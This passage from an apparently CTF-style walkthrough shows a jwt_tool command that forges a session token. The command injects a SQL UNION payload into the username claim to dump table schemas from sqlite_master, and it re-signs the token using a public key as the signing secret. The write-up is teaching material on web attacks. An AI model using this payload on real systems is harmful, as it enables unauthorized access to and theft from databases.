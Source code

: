 Next we have to find the columns for the above found tables. You can do this by executing sql command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(sql),1 from sqlite_master--" -X k -pk ./public.key
```
{% endcode %}

<figure><img src="../.gitbook/assets/Untitled 19.png" alt=""><figcaption></figcaption></figure>

Now send the request.
